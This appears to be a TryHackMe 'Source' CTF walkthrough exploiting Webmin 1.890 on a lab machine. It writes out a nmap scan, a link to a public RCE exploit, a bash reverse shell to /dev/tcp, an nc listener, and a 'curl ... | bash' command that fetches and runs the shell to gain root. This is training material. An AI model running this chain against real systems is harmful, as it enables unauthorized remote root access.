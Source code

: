 # Source-Write-UP-NO-Metasploit
Tryhackme Source CTF Walkthrough  

First, we start Nmap SCAN from Attack Machine  
**root@attack# nmap -sS -sC -sV -p- -oN nmapTCP.txt $IP -v**  

**==============================================================  
NMAP RESULTS**  
PORT      STATE SERVICE VERSION  
**22** /tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)  
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)  
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)  
**10000**/tcp open  http    MiniServ 1.890 (Webmin httpd)  
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).  
|_http-favicon: Unknown favicon MD5: 7564A3DDF173FC8A1499DC41CE4CDD0A  
| http-methods:  
|_  Supported Methods: GET HEAD POST OPTIONS  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

**==============================================================  
Attack Vectors**  
**22**/SSH OpenSSH 7.6p1 Ubuntu →  

**10000**/HTTP MiniServ 1.890 (Webmin httpd) →  
**[*]** Checking for an exploit for webmin version → https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py

**Exploit Usage:**  
...  
WebMin 1.890-expired-remote-root  
Usage: python3 exploit.py HOST PORT COMMAND  
Ex: python3 exploit.py 10.0.0.1 10000 id  
...  

**[*]** Create a bash script (**shell.sh**) on attack box with a reverse shell inside    

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
#!/bin/bash  
bash -i >& /dev/tcp/<YOUR_ATTACK_BOX_IP>/1234 0>&1  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Start a web server on attack box to host the script  

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
root@attack_box# python -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Start a listener on attack box with the same port defined in the reverse shell script  

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
root@attack_box# nc -nvlp 1234  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Execute the following command toward target from attack machine  

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
root@attack_box# python3 webmin_1.890.py <TARGET_IP> 10000 'curl http://<YOUR_ATTACK_BOX_IP>:8000/shell.sh | bash'  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Enjoy it!  
root@source:/usr/share/webmin/# whoami  
whoami  
root  
